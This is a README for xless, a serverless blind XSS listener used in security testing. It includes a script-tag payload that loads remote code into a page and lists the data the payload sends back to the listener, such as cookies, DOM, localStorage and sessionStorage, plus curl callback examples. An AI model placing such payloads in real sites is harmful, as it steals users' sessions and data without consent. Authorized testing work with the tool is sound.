 XLESS
======

# The Serverless Blind XSS App

## About The Project
xless is a serverless blind XSS app that can be used to identify blind XSS vulnerabilities using your own deployed version of the app. There is no need to run a full deployment process; just setup a zeit.co account and run `bash deploy.sh`. That's it. You have a fully-running Blind XSS listener that uses Slack to notify you for blind XSS callbacks.


## Requirements

* zeit.co account: Zeit provides free plan for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.


## Deployment

1. Run:

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://xless.now.sh [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## Example Payload

```javascript
<script src="https://xless.now.sh"></script>

```


## Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


# Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address


# Out-of-Band Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

### Demo

```bash
$ curl https://xless.now.sh/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://xless.now.sh/88bf0ecd
```


# Example Blind XSS payloads

You can view a number of handy XSS payloads for your Xless app at `/examples`
* URL: `https://xless.now.sh/examples`
Once you deploy your app, you can find the examples there.


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. Enabling sharing of page screenshot - Check `test.payload.js`.
2. A nice logo design!
3. _Your idea of a new feature_?


## Acknowledgement

* Matthew Bryant (https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* Rami Ahmed (https://twitter.com/rami_ahmad) for the "xless" name idea.
* Zeit.co for operating a great serverless platform.


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
